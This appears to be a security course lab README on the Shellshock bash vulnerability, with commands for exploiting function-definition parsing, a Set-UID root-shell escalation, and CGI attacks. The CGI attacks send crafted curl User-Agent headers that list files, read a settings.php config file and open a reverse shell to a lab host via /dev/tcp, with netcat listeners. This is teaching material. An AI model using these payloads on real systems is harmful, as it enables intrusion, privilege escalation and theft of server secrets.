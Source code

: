 # Shellshock Attack

Some snippets below:

## Shell Functions

```bash
foo() { echo "Inside function"; }
declare -f foo # show the function def
foo
unset -f foo
declare -f foo # show the function def
```

```bash
foo() { echo "hello world"; }
declare -f foo # show the function def
foo
export -f foo
bash
foo
```

```bash
foo='() { echo "hello world"; }'
echo $foo
declare -f foo # show the function def
export foo
bash_shellshock # run vuln. version of bash

echo $foo
declare -f foo # show the function def
foo
```

## The Shellshock Vuln.

```bash
foo='() { echo "hello world"; }; echo "extra";'
echo $foo
export foo
bash_shellshock # run vuln. version of bash

echo $foo
declare -f foo # show the function def
foo
```

## Shellshock Attack on Set-UID Programs

```bash
sudo ln -sf /bin/bash_shellshock /bin/sh # link sh to the vuln. version of bash
cat vul.c
gcc vul.c -o vul
./vul
sudo chown root vul
sudo chmod 4755 vul
./vul
export foo='() { echo "hello world"; }; echo /bin/sh'
./vul # get the root shell! 
sudo ln -sf /bin/dash /bin/sh # reset sh
```

## Shellshock Attacks on CGI Programs

### Setup

Put this script (`test.cgi`) in `/usr/bin/cgi-bin/`

```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo 
echo 
echo "Hello World"
```

##### Pro Tip

Fetching code from the course repo...

```bash
# Use wget to get a file from our course repo
sudo wget -O myenv.cgi https://raw.githubusercontent.com/traviswpeters/csci476-code/master/03_shellshock/env.cgi
cat myenv.cgi
```

...and putting it in the default folder for the Apache webserver.

```bash
# copy to the default folder for the Apache webserver
sudo mv myenv.cgi /usr/lib/cgi-bin/ 
ls -al /usr/lib/cgi-bin/
```

### Using `curl`

Use `curl` to interact with the CGI script

```bash
curl http://10.0.2.69/cgi-bin/test.cgi
```

### User Data in CGI Scripts

```bash
#!/bin/bash_shellshock

echo "Content-type: text/plain"
echo 
echo "*** Environment Variables ***"
strings /proc/$$/environ
```

```bash
curl -v http://10.0.2.69/cgi-bin/test.cgi
```

Use `curl -A ...` to change the user-agent field.

```bash
curl -A "test" -v http://10.0.2.69/cgi-bin/test.cgi
```

### Launching the attack

```bash
curl -A "() { echo hello; }; 
         echo Content-type: text/plain; 
         echo; /bin/ls -l"
         http://10.0.2.69/cgi-bin/test.cgi
```

```bash
curl -A "() { echo hello; }; 
         echo Content-type: text/plain; 
         echo; 
         /bin/cat /var/www/CSRF/Elgg/elgg-config/settings.php"
         http://10.0.2.69/cgi-bin/test.cgi
```

### Reverse Shell

```bash
nc -lv 9090
ifconfig
```

```bash
/bin/bash -i > /dev/tcp/10.0.2.70/9090 0<&1 2>&1
```

```bash
curl -A "() { echo hello; }; 
         echo Content-type: text/plain; 
         echo; 
         echo; 
         /bin/bash -i > /dev/tcp/10.0.2.70/9090 0<&1 2>&1"
         http://10.0.2.69/cgi-bin/test.cgi
```

```bash
nc -lv 9090
id
```

##### From class:

Follow instructions in Appendices in the SEED setup manual (lab00) to see how to clone your existing SEED VM and properly configure the NAT Network.

Step 1: 
```bash
# start netcat server on "attacker" machine
seed@VM(10.0.2.15):~$ nc -lv 9090
Listening on [0.0.0.0] (family 0, port 9090)
```

Step 2: 
```bash
# experiment with ideal payload on "victim" machine (i.e., a remote server)
seed@VM(10.0.2.7):~$ /bin/bash -i > /dev/tcp/10.0.2.15/9090 0<&1 2>&1
```

At this point, you have a reverse shell setup! 
You can now specify commands from the "attacker" VM, 
which are sent over the network connection and run on the victim's machine; 
the results are also sent back over the network connection to the "attacker" VM. 
In this way, you have shell access to the victim VM! 

The question then is: how do you get the victim to execute your payload?!

**NOTE:** The IP addresses are specific to my configuration. 
You should use `ifconfig` to verify the IP addresses on your VMs. 
